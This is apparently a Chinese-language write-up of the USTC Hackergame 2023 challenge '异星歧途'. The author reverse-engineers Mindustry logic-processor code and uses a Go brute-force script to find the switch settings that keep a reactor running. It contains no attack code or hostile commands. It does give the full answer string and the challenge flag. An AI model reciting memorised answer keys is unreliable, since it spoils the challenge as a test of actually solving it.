> 提示：为了完成目标，你可能需要以特定的顺序拨动这些按钮，但这不影响结果：只有唯一一组按钮组合能满足要求。如果在满足要求后再次改变按钮，冲击反应堆可能会继续运行一段时间，但会在 1-3 分钟后停止，不可能**稳定运行**。
>
> **[打开/下载题目](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/异星歧途/files/the_planet.msav)**

没玩过这游戏，刚打开这题一脸懵逼，查了下发现是要点击逻辑处理器查看连接的开关以及编写的逻辑。

鼠标指向冲击反应堆按F1查看信息，它稳定运行需要每秒1单位爆炸混合物和15单位冷却液。而周围的设备全启动就供应的上了。

逻辑分析：

##### 第一组

很简单，这组就是为了让我们熟悉开关和逻辑处理器的的作用。

如果任何一个开关位置满足条件，跳到18执行设置发电厂为关闭。

```log
0 	 sensor s1 switch1 @enabled
1 	 sensor s2 switch2 @enabled
2 	 sensor s3 switch3 @enabled
3 	 sensor s4 switch4 @enabled
4 	 sensor s5 switch5 @enabled
5 	 sensor s6 switch6 @enabled
6 	 sensor s7 switch7 @enabled
7 	 sensor s8 switch8 @enabled
8 	 jump 18 equal s1 false
9 	 jump 18 equal s2 true
10 	 jump 18 equal s3 false
11 	 jump 18 equal s4 true
12 	 jump 18 equal s5 true
13 	 jump 18 equal s6 false
14 	 jump 18 equal s7 true
15 	 jump 18 equal s8 false
16 	 control enabled generator1 1 0 0 0
17 	 end
18 	 control enabled generator1 0 0 0 0
19 	 end
```


8个开关条件判断分别是`0,1,0,1,1,0,1,0`，那么开关需要设置为相反，即为`1,0,1,0,0,1,0,1`。

##### 第二组

这组包括了循环，目标是让太阳能板和发电机同时启动。

```log
0 	 sensor sw1 switch1 @enabled
1 	 sensor sw2 switch2 @enabled
2 	 sensor sw3 switch3 @enabled
3 	 sensor sw4 switch4 @enabled
4 	 sensor sw5 switch5 @enabled
5 	 sensor sw6 switch6 @enabled
6 	 sensor sw7 switch7 @enabled
7 	 sensor sw8 switch8 @enabled
8 	 op shl t sw1 7
9 	 set number t
10 	 op shl t sw2 6
11 	 op add number number t
12 	 op shl t sw3 5
13 	 op add number number t
14 	 op shl t sw4 4
15 	 op add number number t
16 	 op shl t sw5 3
17 	 op add number number t
18 	 op shl t sw6 2
19 	 op add number number t
20 	 op shl t sw7 1
21 	 op add number number t
22 	 set t sw8
23 	 op add number number t
24 	 set en 0
25 	 set i 0
26 	 jump 33 greaterThanEq i 16
27 	 op pow fl0 i 2
28 	 jump 31 notEqual fl0 number
29 	 set en 1
30 	 jump 33 always x false
31 	 op add i i 1
32 	 jump 26 always x false
33 	 op equal fl1 0 sw1
34 	 op equal fl2 0 sw6
35 	 op or fl3 fl1 fl2
36 	 jump 38 equal fl3 0
37 	 set en 0
38 	 control enabled generator1 en 0 0 0
39 	 control enabled panel1 en 0 0 0
40 	 end
```

抄一下这个逻辑然后遍历得到答案：

```go
package main

import "fmt"

func group2(sw1 int, sw2 int, sw3 int, sw4 int, sw5 int, sw6 int, sw7 int, sw8 int) bool {
	//sw1, sw2, sw3, sw4, sw5, sw6, sw7, sw8 := 0, 0, 0, 0, 0, 0, 0, 0

	number := sw1<<7 + sw2<<6 + sw3<<5 + sw4<<4 + sw5<<3 + sw6<<2 + sw7<<1 + sw8

	en := 0
	i := 0
	fl0 := 0

Label26:
	if i >= 16 {
		goto Label33
	}

	fl0 = i * i
	if fl0 != number {
		goto Label31
	}

	en = 1

	goto Label33

Label31:
	i = i + 1
	goto Label26

Label33:
	fl1 := sw1
	fl2 := sw6
	fl3 := (fl1 == 0) || (fl2 == 0)

	if fl3 == false {
		goto Label38
	}

	en = 0

Label38:
	return en == 1
}

func main() {
	fmt.Println("Hello, World!")
	for sw1 := 0; sw1 <= 1; sw1++ {
		for sw2 := 0; sw2 <= 1; sw2++ {
			for sw3 := 0; sw3 <= 1; sw3++ {
				for sw4 := 0; sw4 <= 1; sw4++ {
					for sw5 := 0; sw5 <= 1; sw5++ {
						for sw6 := 0; sw6 <= 1; sw6++ {
							for sw7 := 0; sw7 <= 1; sw7++ {
								for sw8 := 0; sw8 <= 1; sw8++ {
									group2Result := group2(sw1, sw2, sw3, sw4, sw5, sw6, sw7, sw8)
									if group2Result {
										fmt.Printf("group2(%d, %d, %d, %d, %d, %d, %d, %d) is true\n", sw1, sw2, sw3, sw4, sw5, sw6, sw7, sw8)
									}
								}
							}
						}
					}
				}
			}
		}
	}
}

```

结果为`1,1,0,0,0,1,0,0`

#### 第三组

```log
0 	 sensor sw1 switch1 @enabled
1 	 sensor sw2 switch2 @enabled
2 	 sensor sw3 switch3 @enabled
3 	 sensor sw4 switch4 @enabled
4 	 sensor sw5 switch5 @enabled
5 	 sensor sw6 switch6 @enabled
6 	 sensor sw7 switch7 @enabled
7 	 sensor sw8 switch8 @enabled
8 	 sensor sw9 switch9 @enabled
9 	 control enabled conveyor2 sw1 0 0 0
10 	 control enabled gate1 sw2 0 0 0
11 	 op equal nsw3 sw3 0
12 	 control enabled reactor1 nsw3 0 0 0
13 	 control enabled reactor2 nsw3 0 0 0
14 	 control enabled conduit1 sw4 0 0 0
15 	 control enabled conduit2 sw4 0 0 0
16 	 control enabled mixer1 sw5 0 0 0
17 	 control enabled extractor1 sw6 0 0 0
18 	 control enabled meltdown1 sw7 0 0 0
19 	 control enabled meltdown2 sw7 0 0 0
20 	 op equal result sw8 sw9
21 	 jump 28 equal result true
22 	 control enabled mixer1 0 0 0 0
23 	 control enabled conduit2 1 0 0 0
24 	 control enabled reactor1 1 0 0 0
25 	 control enabled reactor2 1 0 0 0
26 	 control enabled conveyor2 1 0 0 0
27 	 wait 5
28 	 end
```

`sw1`开`conveyor2`传送带供料至`reactor1`。

`sw2`开`gate1`反向溢流门控制供料至`mixer1`。

`sw3`取反开`reactor1`, `reactor2`反应堆，可以先打开开关，关闭两个反应堆避免点错爆炸。

`sw4`控制`conduit1`，`conduit2`液体传送带，如果开起会漏冷冻液，导致爆炸。

`sw5`控制`mixer1`冷冻液混合器生产冷冻液。

`sw6`控制`extractor1`抽水机抽水供料至冷冻液混合器。

`sw7`控制`meltdown1`,`meltdown2`两个炮台。

`sw8`和`sw9`对比，如果不相等，开起一堆设备，如果没有准备好，就一键爆炸。

那么正确的组合是`1,0,0,0,1,1,0,0`


##### 第四组

这题...不好描述...倒着来接比较简单。懂了焚烧炉和反向溢流门原理就能明白了。核心思路就是倒着来保证后面的节点启用。

正确组合是`0,1,1,1,0,1,1,1`。


全解完后答案为`10100101110001001000110001110111`


`flag{B34WarE_0f_#xp1osi0N_58c34b6b19}`


## 0x2 尾巴

没想到结束时间不是周末过晚而是周六中午十二点，时间管理失策了，本来还想再凹凹（呜呜呜

今年差一点能进榜单了，如果明年还有时间再接再厉。


最后排名：



已做题目：